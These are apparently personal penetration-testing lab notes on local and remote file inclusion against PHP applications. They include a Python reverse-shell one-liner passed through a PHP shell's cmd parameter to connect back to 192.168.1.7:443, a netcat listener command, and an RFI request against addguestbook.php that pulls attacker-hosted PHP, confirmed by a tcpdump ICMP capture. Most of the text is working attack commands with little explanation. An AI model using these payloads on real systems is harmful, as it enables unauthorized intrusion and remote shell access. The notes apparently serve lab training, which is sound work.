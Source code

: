 ### Burp LFI manual injections

use burp intruder to inject sql from wordlists

```
/usr/share/wfuzz/wordlist/traversals.txt
```


### PHP & LFI with python to shell script

Localhost > nc –lvp 443

```
Shell.php?cmd=python%20-c%20'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.7",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHPbbscan.txt

Located in viper however you will need to find or create vuln.txt

### PHP Webshell reminders


start a tcpdump capture with ICMP 

```
Root@kali> tcpdump icmp[icmptype]=icmp-echo -vvv -s 0 -X -i any -w ping.pcap

```
then create a ping.txt script to /var/www/html on my localhost

I added the following script to ping.txt

```
<pre style="text-align:left;">

<?php

echo shell_exec('ping -n 1 10.11.0.202');

?>
</pre>

```

Then I executed the script with the LFI on the target

```
http://10.11.4.94/addguestbook.php?name=Test&comment=Which+lang%3&LANG=http://10.11.0.202/ping.txt%00&Submit=Submit

```
### PHP Webshell stuff

